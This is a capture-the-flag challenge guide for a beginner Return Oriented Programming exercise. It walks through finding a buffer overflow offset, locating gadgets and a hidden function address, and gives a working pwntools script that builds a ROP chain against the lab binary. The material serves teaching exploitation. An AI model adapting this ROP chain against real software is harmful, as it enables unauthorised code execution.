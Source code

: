 # Challenge Name
kidrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

### To find the offset needed:
1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 200 bytes. This cyclic sequence helps uses to identify what address or how many bytes we want to overwrite.
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

4. You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616169 ('iaaaaaaa')
 RSP  0x7fffffffdc68 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa...
```

5. Let's find our offset:
```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

### To find `treasureChest` function address:
```sh
$> objdump -d chall | grep treasureChest
0000000000400797 <treasureChest>:
...
```

### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep "pop rdi"
0x0000000000400963 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep "pop rsi"
0x0000000000400961 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary chall | grep ": pop rdx"
0x0000000000400867 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` function

### Final solution
```py
from pwn import *

# setup process
p = remote("SERVER", PORT)

# ROP gadgets
pop_rdi = 0x400963 # pop rdi
pop_rsi = 0x400961 # pop rsi, pop r15
pop_rdx = 0x400867 # pop rdx 

# address of treasureChest 
win = 0x400797

# offset
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx + key3
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
TBD